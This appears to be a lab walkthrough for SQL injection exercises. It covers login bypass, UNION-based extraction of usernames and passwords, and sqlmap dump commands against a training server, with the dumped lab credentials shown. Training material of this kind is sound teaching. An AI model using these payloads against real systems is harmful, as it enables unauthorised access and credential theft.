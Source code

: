 ----------------------------------
# SQL Injection

## Authentication Bypass Variant 1
### query:
SELECT * FROM users WHERE username='admin' AND password='pass'

### task:
You know how SQL is used to create login pages. Use that knowledge and try to figure out a way to login without any credentials. 

### payload:
*username*:admin

*password*:pass' OR 1=1 --+

**NOTE:** + is similar to space in URL encoding




## Authentication Bypass Variant 2
### query:
SELECT * FROM users WHERE username='admin' AND password='1a1dc91c907325c69271ddf0c944bc72'

### task:
You already know how to do a basic authentication bypass. Now try to do this one with a slight twist.

### payload:
*username*:admin' OR 1=1 -- 

*password*:123



## GET Based SQL Injection in URL Variant 1
### query:
http://13.233.141.160/SQL-Injection/GET-Based-SQL-Injection-in-URL-Variant-1/details.php?house=hufflepuff

### task:
Your task is to fetch all the usernames and passwords from the database of the website below.

### payload:
http://13.233.141.160/SQL-Injection/GET-Based-SQL-Injection-in-URL-Variant-1/details.php?house=hufflepuff' UNION SELECT username,password FROM users --+



## GET Based SQL Injection in URL Variant 2
### query:
http://13.233.141.160/SQL-Injection/GET-Based-SQL-Injection-in-URL-Variant-2/?category=1

### task:
Your task is to fetch all the usernames and passwords from the database of the website below.

### payload:
*direct method by guessing*
http://13.233.141.160/SQL-Injection/GET-Based-SQL-Injection-in-URL-Variant-2/?category=1 UNION SELECT username,NULL,NULL,password FROM users --+



*another appraoch*

*getting database name first*
http://13.233.141.160/SQL-Injection/GET-Based-SQL-Injection-in-URL-Variant-2/?category=1 UNION SELECT database(),version(),NULL,NULL --+ 

database-->SQL_Injection_V4
version-->5.7.29-0ubuntu0.18.04.1

*getting table names from database*

http://13.233.141.160/SQL-Injection/GET-Based-SQL-Injection-in-URL-Variant-2/?category=1 UNION SELECT table_name,NULL,NULL,NULL FROM information_schema.tables WHERE table_type = 'base table' --+

python sqlmap.py -u http://13.233.141.160/SQL-Injection/GET-Based-SQL-Injection-in-URL-Variant-2/?category=1 -p category --tables

tables-->
bank_details			
movies 			
users

*getting column names from 'users' table*

http://13.233.141.160/SQL-Injection/GET-Based-SQL-Injection-in-URL-Variant-2/?category=1 UNION SELECT column_name,NULL,NULL,NULL FROM information_schema.columns WHERE table_name = 'users' --+

python sqlmap.py -u http://13.233.141.160/SQL-Injection/GET-Based-SQL-Injection-in-URL-Variant-2/?category=1 -p category --columns -T users



columns names-->
id 			
username 			
password

*getting username and password from 'users' table*

http://13.233.141.160/SQL-Injection/GET-Based-SQL-Injection-in-URL-Variant-2/?category=1 UNION SELECT username,password,NULL,NULL FROM users --+

python sqlmap.py -u http://13.233.141.160/SQL-Injection/GET-Based-SQL-Injection-in-URL-Variant-2/?category=1 -p category --dump -T users

username 	password 		
qwerty123 	keypad 		
123456789 	login 		
batman 	joker 		
superman 	kryptonite

